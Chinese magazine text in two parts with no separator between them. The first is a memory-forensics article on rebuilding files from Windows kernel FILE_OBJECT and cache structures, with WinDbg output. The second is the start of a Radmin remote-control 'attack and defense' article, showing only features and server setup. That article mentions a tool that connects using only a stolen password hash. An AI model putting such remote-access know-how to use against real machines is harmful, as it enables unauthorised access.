Volatility 和 Memoryze 是当前使用最为广泛的两款内存取证工具，均分别提供了一些具体命令以分析单个进程的具体内容。Volatility 工具的命令包括 vaddump、dlldump、procmemdump、procexedump 和 memdump，后者则使用 ProcessDD 命令。下面将对照命令以分析评价……

Dlldump 命令分析易挥发的内存区，得出的部分分析结果与 ProcessDD 命令相似。然而，两个工具使用的取证分析方法却完全不一致。Dlldump 命令遍历进程 EPROCESS 块指向的已加载模块 DLLs 链表，而 ProcessDD 则通过获取 DLL 名来遍历 VAD 树。已加载模块 DLLs 链表在用户级内存，故可被攻击者修改，dlldump 命令可获取到部分从链表中卸载的 DLL 模块物理基地址，并提供给用户。但是这需要攻击者有很高的技能，在 VADs 存放的内核区域执行其恶意代码。Dlldump 通过解析 PE 文件格式，可确定 DLL 文件大小；而 Memoryze 工具的 ProcessDD 命令则利用了 VAD 结构中的页对齐大小。既然 dlldump 使用 PE 文件头信息可确定每个段大小，它就能准确地表述文件是如何映射到磁盘上的。同样，ProcessDD 命令则将数据视为 Windows PE 加载器保存在内存中。然而，这两个工具虽然都能够准确返回真实的物理内容，却均忽视了页对齐问题。

## 传统内存取证方法

尽管以前的内存取证和进程重构方法取得了一定的成绩，但仍然有很大的提升空间。传统的取证方式会对跨内存区的虚拟地址进行翻译，却忽视了 Windows 系统的典型文件结构 FileObject。尽管 FileObject 对象不会出现在所有内存区，但至少它们会以内存映射文件（如 DLLs 和 EXEs）的方式出现。很显然，DLLs 和 EXEs 是取证调查中的重点对象，但传统方法却忽视了这部分地址空间的分析；还有归属问题，当一个工具对进程内存区每个地址进行暴力搜索时，它必然会将其当作此进程内核页的一个属性部分而被搜索，而事实上它并不属于此进程。

### （1）被忽视的数据

DLLs 和 EXEs 之所以被称为内存映射文件，是因为它们在内存中的数据都来自磁盘上的文件内容。对于内存映射文件而言，代码是不分页的。系统通过内核对象来标识一个内存映射文件，当文件内容需要分页到磁盘时，内存映射文件会将内容拷贝回磁盘。既然正常操作下不会用该部分代码内容，且它总是存在于磁盘原文件，故它在页文件的页数据交换中就显多余。仅仅是单一进程内的特定二进制文件，其私有内容是分页的。作为取证调查的一部分，我们对 AcroRd32.exe 进程做了一个实验，使用两个不同的方法获取进程内存映射。传统方法即使用 Volatility 2.0 和 dlldump 命令；第二种方式即使用内核文件对象获取整个映射文件内容，表 1 给出了两者之间的区别。

### （2）误归属的数据

在取证调查事件响应机制中，属性是至关重要的。尽管刚开始可能只是对发现存在缺陷的主机感兴趣，但随后就会产生更多的补救措施。本文主要探讨进程地址空间问题，显然掌握进程漏洞是重要的一环。

在 Honeynet 工程解决方案中，Smith 使用 Volatility 的 memdump 命令获取到了 AcroRd32.exe 进程的 PID，并运行 Foremost 工具重新构建 PDFs。Foremost 工具通过寻找一个特定的起始和结束分界符来重构文件。在此例中，它构建了 7 个 PDF 文件，前 5 个文件只有 400 个字节大小，没有实际意义。最后两个文件分别为：

- 00599696.pdf —— 占 60124 字节大小；
- 00600328.pdf —— 占 607083 字节大小。

表 1 使用两种不同方式获取到的文件内容

| 模块 | File Size in Bytes | Bytes Acquired with Traditional Approach (Ignoring FILE_OBJECT) | Bytes Acquired using FILE_OBJECT |
|---|---:|---:|---:|
| Ntdll.dll | 708,096 | 295,936 | 360,656 |
| Wininet.dll | 656,384 | 309,248 | 411,648 |
| User32.dll | 577,024 | 234,496 | 409,600 |
| Crypt32.dll | 507,904 | 215,040 | 367,104 |
| Acro.dll | 565,248 | 391,752 | 521,288 |

作者在 00600328.pdf 文件内发现了可疑内容，此文件显然归属于 AcroRd32.exe 进程，因为它们是从此进程上下文中获取到的内容。然而，使用 Volatility 的 memdump 命令和 Foremost 工具对同一个镜像进行分析时，得出了相同大小、内容几乎相同的文件。尽管他们的结论是正确的，但若他们尝试分析的不是进程 AcroRd32.exe，则结果可能不正确，并会因为错误的属性而误导。这些文件在每个进程中都存在的原因，是由于采用了同一种技术对进程进行分析。Memdump 命令暴力搜索 4GB 的虚拟地址空间，并使用目标进程的目录基址表 DTB 进行页地址翻译。这些文件内容都必须在每个进程地址空间上翻译。通过在 Volatility 脚本上放置一条打印语句，可以看出这些文件在系统中的缓存位置为 0x2D2DC0000。系统使用此缓存保存部分文件内容及其部分 I/O 到内存中，以尽可能减少从磁盘读取文件内容导致的性能下降。既然缓存的虚拟地址空间位于内核内存且为全局变量，那么在上述两个进程中的地址翻译都是正确的。

memdump 命令并不会对未翻译的页进行磁盘写入，故已翻译的地址看似连续，但实际上很可能存在成千上万个虚拟页间隔。Foremost 仅仅是对获取到的所有数据进行遍历搜索，寻找开始和结束分隔符。使用 MoonSols 提供的 bin2dmp.exe 工具，你可以将内存镜像从 Bob.vmem 形式转换为 WinDbg 格式。将 dump 文件加载到 WinDbg 后，使用 !filecache 命令，我们可以找到 FILE_OBJECT 对象地址为 0x81DFADF0。然后，!filecache 同样揭露了 00600328.pdf 实际上是 PDF.php。此文件并不是 607083 字节大小，而仅仅占 19731 字节。导致这种差异的存在，主要是 memdump 命令会将进程内的所有页翻译成一个连续文件，而忽视了无法翻译的页以及缓存结构等。此外，Foremost 工具会遍历开始与结束定界符，并将标签内部的内容视为一个连续文件。下面小节将给出如何利用 FileObject 和缓存结构。

## 利用文件对象

既然 DLLs 和 EXEs 都是通过内核内存中的文件对象 FileObject 来引用的内存映射文件，则理解它们的结构对内存取证而言显得至关重要。FILE_OBJECT 结构体包含了一些重要成员变量，如 Unicode 文件名指针、文件的设备对象指针（包含驱动名）等。其中最为重要的指针即 SECTION_OBJECT_POINTERS，如图 1 所示。



图 1

SECTION_OBJECT_POINTERS 结构体仅包含 3 个指针，分别为 DataSectionObject、SharedCacheMap 和 ImageSectionObjects。其中 DataSectionObject 和 ImageSectionObjects 相关，都是指向 CONTROL_AREA 结构体的指针。ImageSectionObjects 则代表二进制镜像，以跟踪可执行文件流的状态。

- Image Section Objects

ImageSectionObjects 即指向 CONTROL_AREA 结构的指针，用来表示内存映射二进制文件。ControlArea 包含一个指向段结构体的指针，段结构体中又包含一个指向原 ControlArea 的指针。这种关系可以在内存解析中作为一种验证方法。段结构中还包含了段大小、页表项总数。用 PTEs 总数乘以 0x1000 可校验一个段的完整性。Subsection 结构体在 ControlArea 中起着重要作用。寻找首个与 FileObject 对象相关的 Subsection 最简易的方法，即将 CONTROL_AREA 结构体大小加到 FileObject 对象地址上。我们的研究表明，首个 Subsection 结构紧随 ControlArea 结构体，每个 Subsection 都包含一个指向下一个 Subsection 的指针，如图 2 所示。



图 2

图 2 中对取证而言，最感兴趣的是原型 PTEs 数组 MMPTE。原型 PTE 包含了内存页物理地址。若替换此物理地址，则原型 PTE 中的一个指针会重新指向原 Subsection，对应的页被交换到磁盘文件上。Subsection 结构中的 NumberOfFullSectors 和 PtesInSubsection 字段值对于原型 PTEs 数组的遍历十分重要。每个原型 PTE 占 4096 字节页大小，每个完整的扇区占 512 字节，故每个 PTE 中至多能存放 8 个扇区内容。为了准确判断哪些内容在内存、哪些内容保存在磁盘上，需要获取正确的边界对齐值。



图 3

- Shared Cache Map

SharedCacheMap 是指向 SHARED_CACHE_MAP 结构体的指针，如图 3 所示。它包含了文件大小、缓存（cache）中有效数据长度等。若 ValidDataLength 大于文件大小，则 SHARED_CACHE_MAP 无效。此结构体也包含了 InitialVacbs 成员——包含 4 个指向 VACB（虚拟地址控制块）的指针。每个 VACB 占 256KB 大小，若文件大小 ≤1MB，则 FileObject 可以用 4 个 VACB 表示；若文件大小在 1MB 与 32MB 之间，则系统会采用一个 VACB 数组来描述文件内容；超出 32MB 大小，则会引入二级指针，类似于虚拟内存的多级页表管理模式。VACB 树深度可以使用公式：`⌈log2(n)-18⌉/7` 计算。

执行 `dt nt!_SHARED_CACHE_MAP 0x86413008`，获取 SHARED_CACHE_MAP 结构体详细内容，即提取出 Vacbs 指针值，进而获取文件在缓存中的内容，假设执行结果如下：

```text
lkd> dt nt!_SHARED_CACHE_MAP 0x86413008
...
+0x008 FileSize           : _LARGE_INTEGER 0x48000
+0x010 BcbList            : _LIST_ENTRY [ 0x86413018 - 0x86413018 ]
+0x018 SectionSize        : _LARGE_INTEGER 0x1000000
+0x020 ValidDataLength    : _LARGE_INTEGER 0x48000
+0x028 ValidDataGoal      : _LARGE_INTEGER 0x48000
+0x030 InitialVacbs       : [4] 0x86face00
+0x040 Vacbs              : 0x86413038
+0x044 FileObject         : 0x866068d8
```

## 案例分析

我们可以对一个文件进行分析，打开一个文件通过进程获取到文件对象值（这里可以采用驱动程序调用 ObReferenceObjectByHandle 函数，根据文件句柄值获取到文件对象值）。假设值为 8606bea8，则此时使用 Windbg 工具执行 `dt nt!_FILE_OBJECT 8606bea8`，可以得出此文件对象下每个成员的内存地址信息，如下所示：

```text
lkd> dt nt!_FILE_OBJECT 8606bea8
+0x000 Type                 : 5
+0x002 Size                 : 112
+0x004 DeviceObject         : 0x86f22cc0
+0x008 Vpb                  : 0x86f22c38
+0x00c FsContext            : 0xe1d32710
+0x010 FsContext2           : 0xe18a25b8
+0x014 SectionObjectPointer : 0x86cae074
+0x018 PrivateCacheMap      : (null)
+0x030 FileName             : _UNICODE_STRING "Documents and Settings\index.txt"
+0x038 CurrentByteOffset    : _LARGE_INTEGER 0x0
```

从文件大小看，文件内容小于 1MB，故只占一个 VACB。再次跟踪 VACB 结构：

```text
lkd> dt nt!_VACB 0x86face00
+0x000 BaseAddress    : 0xd4680000
+0x004 SharedCacheMap : 0x86413008
+0x008 Overlay        : __unnamed
+0x010 LruList        : _LIST_ENTRY [ ... ]
```

由 VACB 基地址，此时我们可以获取文件在内存中的内容，执行如下命令即可：

```text
lkd> db d4680000
... 43 6c 69 65 6e 74 20 55 72 6c 43 61 63 68 65
... 4d 4d 46 20 56 65 72 20 35 2e 32 ...
...
```

然后继续跟踪 SectionObjectPointer 结构，执行 `dt nt!_SECTION_OBJECT_POINTERS 0x86cae074`，获取到此结构体的三个指针值，即 DataSectionObject、SharedCacheMap 和 ImageSectionObject。假设执行得出的结果如下：

```text
lkd> dt nt!_SECTION_OBJECT_POINTERS 0x86cae074
+0x000 DataSectionObject : 0x86e3e1a8
+0x004 SharedCacheMap    : 0x86413008
+0x008 ImageSectionObject: (null)
```

前面已经分析过，ControlArea 结构体中包含一个指向原文件对象的指针，即 FilePointer。我们在执行 `dt nt!_SHARED_CACHE_MAP 0x86413008` 之前，需要校验 ControlArea 结构体的 FilePointer 指针值，即执行 `dt nt!_CONTROL_AREA ...`。这里假设满足此校验要求，此时我们可以直接执行相关 `dt` 命令进行提取。

## 小结与展望

本文我们介绍了一些新技术，以准确地从内存中重构文件及进程，并展示了文件对象成员变量 SECTION_OBJECT_POINTERS 结构体的重要作用。尤其是，从内存中萃取进程信息时，ImageSectionObject 结构体在定位进程内容在内存中的位置至关重要。DataSectionObject 结构体在萃取数据文件时（如从内存中获取 Word 文档内容）也起着重要作用。为了在内存映像文件、数据文件、缓存文件中获取到更丰富的内容，寻找指定进程相关的所有文件对象是必要的。

在分析或获取一个进程的地址空间时，可以从两个渠道找到文件对象：① 进程句柄表；② VAD 树。前面的分析主要目标在 VAD 树，其实一些重要的取证调查数据在句柄表中可以找到。比如 Windows 注册表，注册表单元的大部分内容存放在 cache 中，我们可以借助一些专用取证工具如 RegRipper 对注册表进行取证分析；PDF 文件、Web 浏览器会话中的 GIF 文件等。

前置知识：无

关键词：Radmin，网络，密码

# Radmin 网络攻防全面接触



图/文 Simeon

Radmin 是一款世界知名的远程控制软件，其完全控制、文件传输、Telnet 命令等功能非常好用。在 Radmin 3.0 以前版本中，杀毒软件都不对其进行查杀，后期由于黑客和病毒的大量使用 R_server 作为媒介，因此将 R_server 作为安全威胁处理。尽管如此，Radmin 还是深受网络安全者的喜爱。有关 Radmin 的研究，国内安全组织有很多文章和作品，例如 radmin hash 连接器，即只要获取了 Radmin 的密码 hash 值，通过该软件可以直接进行连接，而不需知道其密码。

本文将从网络攻防的角度来介绍 Radmin 软件，通过本文读者可以掌握很多有关 Radmin 攻击和防护的知识。

## Radmin 简介

Radmin 是 Remote Administrator 的简称，官方网站（http://www.radmin.com）解释为 PC Remote Control Software and Remote Access Software（PC 远程控制和远程访问软件），它是一款屡获殊荣的远程控制软件，目前最新版本为 3.4。它将远程控制、外包服务组件以及网络监控结合到一个系统里，提供目前为止最快速、强健而安全的工具包。

## 主要特点

- 1. **最高工作速度**

  Radmin 目前是最快的远程控制软件。它的 Direct Screen Transfer™ 技术采用了视频挂钩内核模式驱动程序，将捕捉率提高到每秒数百次屏幕更新。通过其特别的低带宽优化功能，可以在使用拨号调制解调器和 GPRS 连接的情况下，顺利地进行工作。

- 2. **最高安全级别**

  Radmin 以加密模式工作，为每个连接到远程计算机的所有数据、屏幕图像、鼠标移动和键盘信号采用随机生成的密钥 256 位 AES 强加密。可以使用 Windows Security 或 Radmin Security。Windows 安全性支持对特定用户使用不同的权限，或对主域、可信域和活动目录的用户组使用不同的权限。支持自动使用登录用户凭证和 Kerberos 验证。Radmin 安全性支持对添加到 Radmin Server 访问列表的用户使用不同的权限。Radmin 用户验证使用新的基于 Diffie-Hellman 的密钥交换，密钥长度 2048 位。IP Filter 仅允许从特定 IP 地址和网络访问 Radmin Server，添加到日志文件的 DNS 名称和用户名信息，智能防护密码猜测时五次密码登录错误后自动进行延迟。

- 3. **硬件支持英特尔® AMT 新产品远程控制**

  Radmin 3.4 版本支持英特尔® AMT（主动管理技术），它允许远程计算机控制，即使是关闭或无法启动操作系统。可以使用 Radmin 浏览器打开、重新启动和关闭远程计算机。它还使用户能够查看和修改远程计算机的 BIOS 设置并启动它从本地 CD 或磁盘映像文件。

- 4. **全面兼容 Windows 7 新功能**

  Radmin 3.4 完全支持 Windows 7 32 位和 64 位，包括用户账户控制和快速用户切换。Radmin 的服务器 3.4 支持 Windows 7/Vista/XP/2008/2003/2000（32 位）和 Windows 7/Vista/XP/2008/2003（64 位）操作系统。Radmin 的播放器 3.4 支持 Windows 7/Vista/XP/2008/2003/2000/ME/98/95/NT4.0（32 位）和 Windows 7/Vista/XP/2008/2003（64 位）操作系统。

- 5. **操作简单，支持多连接**

  Radmin 支持被控端以服务的方式运行，支持多个连接和 IP 过滤（即允许特定的 IP 控制远程机器）、个性化的文件互传、远程关机、支持高分辨率模式、基于 Windows NT 的安全支持及密码保护以及提供日志文件支持等。Radmin 目前支持 TCP/IP 协议，应用十分广泛。

## 软件组成

Radmin 软件分为服务端（Radmin Server）和浏览器端（Radmin Viewer）两个部分，在早期版本中这两个部分是集成到一起的；在 3.0 以后版本将其分开了。浏览器端（Radmin Viewer）也即 Radmin.exe，服务端（Radmin Server）也即早期 R_server.exe 部分，在后续版本中增加了一些新的功能，同时服务端名称进行了更改，服务端主程序由 R_server.exe 更名为 rserver3.exe。其安装文件路径由 “C:\Program Files\Radmin” 变为 “C:\WINDOWS\system32\rserver30”，共有 25 个主要程序文件。

## Radmin 使用教程

### 安装浏览器端和服务器端

服务端（Radmin Server）和浏览器端（Radmin Viewer）的安装很简单，按照提示进行即可，不过目前该软件语言是以英文为主。

### 服务端详细设置

### 1. 设置主窗口

单击“开始”→“程序”→“Radmin Server 3”→“Setting For Radmin Server”进入 Radmin Server 设置窗口，如图 1 所示。Radmin Server 的所有设置都通过该窗口来完成，在 Radmin 3.0 以前版本还可以通过命令行来设置。



图 1 Radmin Server 设置主窗口

### 2. 输入 License

在设置主窗口中单击“Enter License”，在弹出的“License Code”中输入注册码，如图 2 所示。否则该软件在试用 30 天后，客户端无法连接服务端，在连接时需要输入正确的注册码后才能使用。



图 2 输入注册码

### 3. 设置 Radmin Server 选项（Options）

在主窗口中单击“Options”，接着会出现一个选项设置窗口，如图 3 所示。在该窗口中有普通（General）、杂项（Miscellaneous）、IP 地址过滤（IP Filter）、语言（Language）、聊天选项（Chat Options）和语音聊天选项（Voice Chat Options）六大设置。



图 3 设置选项主窗口

#### （1）普通设置

在普通设置中一共有端口（Port）、托盘图标（Tray icon）、连接对话框（Incoming connection dialog）和日志（Logging）四大选项。Radmin Server 默认端口为“4899”，如果需要更改该端口为自定义的未使用端口，则可以去掉“Use default port”前面的勾，同时在下面的输入框中输入自定义的端口。

托盘图标主要设置是否在计算机上显示连接图标，默认情况下是显示。该图标一般在任务栏右下角。双击该图标可以查看当前的连接，并显示“Incoming connections are accepted on port 4899”提示信息。在 Radmin Server 2.x 版本中可以设置不显示该图标，在 Radmin Server 3.x 版本中该图标有两种设置方式，即“Show in System Tray”和“Always Show”。

